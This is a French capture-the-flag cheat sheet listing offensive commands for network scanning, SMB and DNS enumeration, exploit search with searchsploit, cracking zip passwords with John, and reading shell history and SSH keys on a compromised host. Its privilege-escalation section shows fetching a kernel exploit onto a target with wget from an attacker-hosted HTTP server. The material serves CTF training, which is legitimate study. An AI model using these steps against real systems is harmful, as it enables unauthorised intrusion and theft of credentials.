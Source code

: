 # Capture The Flag

- [Reconnaissance](#reconnaissance)
  - [Scan de port](#scan-de-port)
  - [TODO Enumération SMB](#todo-enumération-smb)
- [Metasploit](#metasploit)
- [DNS](#dns)
- [Vulnérabilités](#vulnérabilités)
- [Local Privilege Escalation](#local-privilege-escalation)
- [Cassage de mot de passe](#cassage-de-mot-de-passe)
- [SQLite](#sqlite)

Liens :
- https://attack.mitre.org/matrices
- https://www.thehacker.recipes
- https://nicolasb.fr/blog/dghack-my-second-ctf

Départ :
- commencer par brancher le câble réseau 😉
- lancer Wireshark pour observer ce qu'il se passe sur la ligne
- s'assigner une IP sur le même réseau

## Reconnaissance

De manière générale :
- remarquer les versions

Si t'obtiens un accès sur un linux/windows :
- regarder l'historique des commandes
- regarder dans `$HOME/.ssh/`
- regarder la table ARP (pour découvrir des hôtes sans faire de scan)
- regarder les routes pour découvrir d'autres réseaux

Sur Linux :
```bash
history
find /root /home -name *history*

find {/root,/home/*}/.ssh

ip n
ip -br a; echo; ip r
```

Sur Windows :
```powershell
ipconfig -all
arp -a
route
```

### Scan de port

```bash
# pinguer tout les hôtes d'un réseau (port 80 + ICMP echo-request)
nmap -T4 -sP 192.168.0.0/24

# scan discret (n'envoi que des TCP SYN, moins de chance que les connexions soient loggés)
nmap -T4 -sS <ip>

# OS + info sur les services
nmap -T4 -A -oN scan1.txt <ip>
# scan de vuln
nmap -T4 -sV --script vulners -oN scan1.txt <ip>
# sur une plage de port
nmap -T4 -sV --script vulners -oN scan1.txt <ip> -p 1023-10000
```

### TODO Enumération SMB

Si les ports `139` et `445` sont ouverts, il y a des chances que SMB tourne sur la machine.

```bash
enum4linux -U <ip>
```

## Metasploit

`msfconsole`

## DNS

Si on a trouvé un serveur DNS :
```bash
echo 'nameserver <ip>' >> /etc/resolv.conf
```

Voir tous les enregistrements d'un domaine :
```bash
host -a example.com
```

Mapper un domaine : https://dnsdumpster.com

Pour faire un transfert de zone :
```bash
dig @<?> AXFR <fqdn ?>
```

## Vulnérabilités

Pour chercher des vulnérabilités :
- https://www.exploit-db.com
- https://nvd.nist.gov/vuln/search

ou la commande `searchsploit`:
```bash
# pour chercher (case insensitive AND)
searchsploit cutenews
# lire l'exploit
searchsploit -x <filename>
# copier l'exploit dans le CWD
searchsploit -m <filename>
```

## Local Privilege Escalation

Sur la machine cible :
```bash
# obtenir la version du noyau Linux
uname -a

# télécharger l'exploit (et le stocker en RAM)
wget URL > /dev/shm/lpe
```

Sur ta machine :
```bash
# regarder s'il existe des exploit
searchsploit 4.15
# le télécharger
searchsploit -m <filename>
# l'héberger
python -m SimpleHTTPServer
```

## Cassage de mot de passe

Pour extraire le hash du mot de passe d'un zip : `zip2john file.zip > hash.txt`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## SQLite

```bash
sqlitebrowser fichier.sqlite
```
